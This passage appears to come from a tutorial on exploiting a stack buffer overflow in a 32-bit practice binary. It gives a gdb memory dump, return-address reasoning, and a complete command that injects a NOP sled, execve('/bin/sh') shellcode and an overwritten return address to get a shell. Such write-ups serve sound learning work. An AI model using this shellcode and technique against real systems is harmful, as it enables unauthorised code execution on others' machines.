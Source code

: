 ```sh
0xffffd540:	0x4141414141414141	0x4141414141414141
0xffffd550:	0x4141414141414141	0x4141414141414141
0xffffd560:	0x4141414141414141	0x4141414141414141
0xffffd570:	0x4141414141414141	0x0041414141414141
0xffffd580:	0x524e54565f474458	0x544942524f00373d
0xffffd590:	0x4454454b434f535f	0x2f706d742f3d5249
0xffffd5a0:	0x72672d746962726f	0x535f474458006d61
```

We can estimate than the buffer is address are compris between `0xffffd4c0` and `0xffffd570`. Attention the `gdb` address can be a bit different than when the program is running outside of it. For avoid this problem we will take an address in the middle of our buffer for exemple `0xffffd510`, It is not importante to target the exact buffer address because we will used a NOP sled.

We now need a shellcode. You can write it yourself or you can find one it feet your needs on [shell-strom](http://shell-storm.org/shellcode/files/shellcode-827.php).

We now have everything we need. So we will start by inserting the x90 instruction in the buffer, this instruction correspond to a NOP, a single clock time, we call this action of NOP padding a NOP sled. After this NOP sled we put our shellcode, and we comlete the padding to arrive to the 140 offset, and finally we put the buffer address we take juste before (`0xffffd510`) do not forget to put it in little endian. So we will do like that 100 bytes (NOP sled) + 23 bytes (shellcode) + 17 (padding) + the buffer address in little endian.

```sh
gdb$ run $(python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 17 + "\x10\xd5\xff\xff"')
```

We still on `gdb` so we get a shell but we do not have the possibility to truly use it.
So let's redo this command out of `gdb`.

```sh
$ ./v1-32 $(python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x90" * 17 + "\x10\xd5\xff\xff"')
```
Here we go!! We got a shell.
